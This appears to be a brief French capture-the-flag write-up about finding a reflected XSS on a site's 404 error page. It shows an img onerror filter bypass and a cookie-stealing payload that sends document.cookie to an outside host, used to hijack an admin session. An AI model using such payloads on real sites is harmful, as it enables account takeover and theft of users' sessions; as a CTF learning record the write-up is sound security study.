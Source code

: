 En regardant de plus près le site nous observons un forumaire à envoyer à l'admin, on peut donc se douter qu'il peut s'agir d'une XSS.
En allant voir la apge de l'erreur 404 le site nous affiche le nom de la page qui n'existe pas, et si nous mettions du code javascript pour qu'il execute en voulant l'afficher sur la page d'erreur ?
On essaye avec un simple <script>alert()</script> mais le site le détecte.
On essaye alors avec \<img src=x onerror="alert()"\>. BINGO ça marche !!!
C'est partit pour faire une redirection \<img src= onerror="document.location'siteweb.com?cookie='+document.cookie"\>, on encode le tout en URL encode
On attend et le cookie est là, on se connect avec en tant qu'admin et on flag
